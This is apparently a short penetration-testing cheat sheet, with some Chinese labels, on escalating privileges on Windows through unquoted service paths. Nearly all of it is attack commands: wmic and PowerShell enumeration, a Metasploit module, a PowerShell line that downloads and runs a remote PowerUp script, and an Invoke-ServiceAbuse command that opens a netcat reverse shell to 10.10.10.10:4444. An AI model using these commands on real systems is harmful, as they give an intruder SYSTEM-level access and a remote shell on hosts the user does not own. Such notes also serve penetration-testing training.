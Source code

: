 	>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
	>wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
	>gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
  #### MSF
	>use exploit/windows/local/trusted_service_path
	>set session 1
  #### PowerUp
  	发现存在漏洞的应用
	C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

	...
	[*] Checking for unquoted service paths...
	ServiceName   : BBSvc
	Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
	StartName     : LocalSystem
	AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
	...

	自动攻击
	Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"